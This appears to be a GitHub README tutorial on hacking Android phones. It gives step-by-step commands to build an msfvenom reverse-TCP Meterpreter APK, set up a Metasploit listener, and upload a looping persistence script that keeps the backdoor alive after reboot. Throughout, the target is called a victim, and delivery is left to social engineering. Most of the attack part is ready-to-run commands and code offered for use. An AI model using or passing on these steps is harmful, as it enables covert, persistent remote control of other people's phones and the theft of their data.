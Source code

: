 # Android Hack & Persistence
## _How to take and keep control of an android device_

In this tutoriel, we will see how to create a payload for android phones and gain persistent access over the hacked system. 

We do not consider the part where you have to make the victim execute the payload, this is part of the social engineering course.

- Setup the environment 
- Create the payload using msfvenom
- Use msfconsole to setup a listener
- Gain /meterpreter> session over TCP
- Upload persistency script
- ✨Magic ✨

## Tutorial

### 1. Setup the environment
First, you have to find your public and private IP addresses. 
To do so, type the following in your terminal:

> Private IP
> ```sh
> ifconfig | grep "inet 192" | awk '{print $2}'
>```
The result of this command is you private IP.

> Public IP
>```sh
> curl ifconfig.me
>```
The result of this command is your public IP.

### 2. Creating the payload

You have to ask yourself the following question. Will you target be on the same network as you when they will execute the payload ? 

>If the answer is yes (ex: University Wi-Fi), then use you Private IP for the following step. Otherwise, use your public IP. 

Run the following command in you terminal:

>```sh
> msfvenom -p android/meterpreter/reverse_tcp LHOST={PRIVATE OR PUBLIC IP} -e x86/shikata_ga_nai -o  pwn_android.apk
> ```

> Note that the "-e x86/shikata_ga_nai" is OPTIONAL, it simply tells msfvenom to use a polymorphic XOR encoder

> Note that the "-o pwn_android.apk" is the name under wich the payload will be saved, you can choose what you want

Then, your payload should be saved under the named you choosed, in the directory in which you executed the command. 

## 3. Using Msfconsole

Fire-up msfconsole to setup the listener.The listener is the program that will be called over TCP by the payload when it has been executed by the victim on their device.

>In your terminal, type the following:
```sh
msfconsole
```
```sh
use exploit/multi/handler
```
```sh
set payload android/meterpreter/reverse_tcp
```
```sh
set LHOST {PRIVATE IP}
```
```sh
exploit
```

The listener is now switched on, if the victim executes the payload, you will acces a meterpreter session, and therefor, access the hacked android phone. 

### 4. Forging the persistence script

In another terminal, we are going to forge the persistence script. This script will allow us to pop a meterpreter sessions when the hacked device boots (even after reboot)

> In order to do do so, type the following:

```sh
nano pwn_persistent.sh 
```
> Make sure that you file as the .sh extention, it won't work otherwise.

When the editor pops'up type the following code:
> Make sure you respect the syntaxe.

```sh
#!/bin/bash
while :

do am start --user 0 -a android.intent.MAIN -n com.metasploit.stage/.MainActivity

sleep 20

done
```

Then, copy the generated file in you /root directory. You can do so by typing the following command:

```sh
cp pwn_persistent.sh /root
```

### 5. Upload the persistence script on the hacked device

When you have initiated the meterpreter session, i.e. when the victim executed the payload, you should have the following in you msfconsole:

```sh
meterpreter>
```
Next step is to upload the v2 script to the hacked device to obtain a persistent access. 

Our persistence script (pwn_persistent.sh) has to be placed in the /etc/init.d/ directory in order to be loaded up whenever the devices reboots.

To do so, in you meterpreter session, type:

```sh
cd /etc/init.d
```
```sh
upload pwn_persistent.sh
```

> It is probable that it wont work, which means the android phone you hacked previously is not "rooted"
> If it does not work, still in the meterpreter sessions, do:

```sh
shell
```

Then, in the new shell that should have poped up, do:
```sh
cd /
```
```sh
cd /sdcard/Downloads/
```
```sh
upload pwn_persistent.sh
```
> then execute the script by doing:

```sh
sh pwn_persistent.sh
```

You can now kill the shell buy doing:
> CTRL + C

## END

DONE, the device was hacked, now the hacking is persistent. When the phone reboots, you will still have access to the meterpreter session.

> If you pop msfconsole and do:

```sh
use exploit/multi/handler
```
```sh
set payload android/meterpreter/reverse_tcp
```
```sh
set LHOST {PRIVATE IP}
```
```sh
exploit
```
Then, the meterpreter session should pop-up properly (if the device is switched-on and has GSM connexion).

# ✨Enjoy and be careful UwU ✨
